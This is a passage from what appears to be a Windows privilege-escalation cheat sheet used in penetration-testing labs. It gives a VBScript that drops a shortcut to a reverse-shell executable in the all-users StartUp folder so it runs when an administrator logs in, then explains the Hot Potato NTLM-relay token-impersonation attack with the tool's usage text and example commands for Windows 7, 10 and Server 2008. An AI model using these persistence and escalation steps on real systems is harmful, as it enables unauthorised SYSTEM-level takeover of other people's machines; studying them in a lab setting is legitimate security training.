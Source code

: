 2. Note that the BUILTIN\Users group has write access to this directory.
3. Copy the following script (CreateShortcut.vbs) to the target. 
```powershell
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\tools\reverse.exe"
oLink.Save
```
4. Run the script with cscript:
> cscript CreateShortcut.vbs

This will trigger your reverse shell when an admin logins.

## Token Impersonation
Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.
Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

 "SeImpersonatePrivilege/SeAssignPrimaryToken" privilege needed to be enabled.

### Hot Potato

Source code found at `https://github.com/foxglovesec/Potato`

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

Steps depend on the version of windows:

```powershell
C:\PrivEsc\tools>potato.exe -h
potato.exe -h
Usage: potato.exe 
-ip <ip address> 
-cmd <command> 
-drop_first_dcom <true/false>
-enable_exhaust <true/false> 
-enable_defender <true/false> 
-enable_spoof <true/false>
-spoof_host <default wpad> 
-spoof_address <default, localip> 
-wpad_exclude <comma separated host to exclude>
-schedule_task <true/false, Win10 only> 
-srv_port <port for webserver to listen, default 80>
-enable_httpserver <true/false> 
-enable_defender_scan <true/false> 
-enable_etw <true/false> [guid][StandAlone]
-enable_token <true/false> [needs http or dcom] 
-enable_dce <true/false> 


Example Windows 7:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

Example Windows 10:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -schedule_task true

Example Windows Server 2008:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_spoof true -spoof_host "WPAD.DOMAIN.TLD" 

```
